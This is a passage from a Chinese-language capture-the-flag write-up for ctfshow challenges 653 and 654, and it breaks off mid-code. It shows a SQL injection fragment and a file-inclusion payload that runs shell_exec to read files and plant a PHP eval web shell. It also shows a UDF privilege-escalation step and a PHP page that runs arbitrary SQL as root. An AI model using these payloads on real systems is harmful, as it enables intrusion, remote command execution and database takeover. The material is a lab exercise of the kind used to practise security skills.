 ```
0) union select `key` from ctfshow_keys%23
```

# 653

接着审计，common存在任意文件包含

![image-20220324213504576](https://img-blog.csdnimg.cn/img_convert/28b35c2da9b9c96a5c651e43603a25f6.png)

users.php未检测文件内容，文件名写死为 data_you_never_know.db

![image-20220324213603742](https://img-blog.csdnimg.cn/img_convert/34e2debf1760e92e9e3151f0022ffaa7.png)

那就上传一句话然后去包含来rce，数据还原上传

```
/system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}

POST: 由于openbase_dir存在且ban了chdir，没法bypass
key=key_is_here_you_know&file=../db/data_you_never_know.db&1=echo shell_exec('ls /;cat /secret.txt');
//写shell
key=key_is_here_you_know&file=../db/data_you_never_know.db&1=echo shell_exec('echo "<?=eval(\$_POST[a]);?>" > /var/www/html/static/y0ng.php');
```

ctfshow{5526710eb3ed7b4742232d6d6f9ee3a9}

# 654

- udf 提权

利用之前的高权限数据库账号密码蚁剑连接

```
a=file_put_contents('y0ng.so',hex2bin('7F454C4...'));

a=echo `cp y0ng.so /usr/lib/mariadb/plugin/y0ng.so`;
```

然后利用shell写一个mysql.php

```
<?php
highlight_file(__FILE__);
error_reporting(E_ALL);
$mysqli = new mysqli("localhost","root","root","ctfshow");
$tmp = $mysqli->query($_POST['sql']);
$result = $tmp->fetch_all();
print_r($result);
?>
或者
<?php
function query($sql){
    $host='localhost';
    $username='root';
    $password='root';
    $database='ctfshow';

    $ret = array();
    $conn = new mysqli($host, $username, $password, $database);
    if ($conn->connect_error) {die("连接失败: " . $conn->connect_error);}

    $res = $conn->query($sql);
    if($res){
        while ($row = $res->fetch_array(MYSQLI_NUM)) {
```